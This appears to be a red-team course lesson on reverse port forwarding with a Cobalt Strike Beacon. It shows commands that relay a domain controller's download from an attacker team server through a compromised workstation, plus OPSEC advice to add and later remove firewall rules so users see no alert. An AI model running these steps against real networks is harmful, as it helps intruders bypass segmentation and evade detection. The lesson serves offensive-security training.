 Reverse Port Forwarding allows a machine to redirect inbound traffic on a specific port to another IP and port.  A useful implementation of this allows machines to bypass firewall and other network segmentation restrictions, to talk to nodes they wouldn't normally be able to.  For example, we can use the console of **Domain Controller 2** to demonstrate that it does not have any outbound access to our team server.
```
PS C:\Users\Administrator> hostname
dc-2

PS C:\Users\Administrator> iwr -Uri http://nickelviper.com/a
iwr : Unable to connect to the remote server
```
  

We know of course that Workstation 2 does - so we can create a reverse port forward to relay traffic between Domain Controller 2 and our team server.
```
beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80

  

This will bind port 8080 on Workstation 2.

beacon> run netstat -anp tcp
TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```
  

Any traffic hitting this port will be tunnelled back to the team server over the C2 channel.  The team server will then relay the traffic to the forward host/port, then send the response back over Beacon.  Now, we can download the file via this port forward.
```
PS C:\Users\Administrator> iwr -Uri http://wkstn-2:8080/a

StatusCode        : 200
```
  

  **OPSEC**  
  
When the Windows firewall is enabled, it will prompt the user with an alert when an application attempts to listen on a port that is not explicitly allowed.  Allowing access requires local admin privileges and clicking cancel will create an explicit block rule.  
  
![](https://files.cdn.thinkific.com/file_uploads/584845/images/9f7/2d7/24e/alert.png)

  

You must therefore create an allow rule **before** running a reverse port forward using either `netsh` or `New-NetFirewallRule`, as adding and removing rules does not create a visible alert.
```
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```
  

Don't be lazy by disabling the firewall entirely.

You can delete a firewall rule later by its `DisplayName`.
```
beacon> powershell Remove-NetFirewallRule -DisplayName "8080-In"
```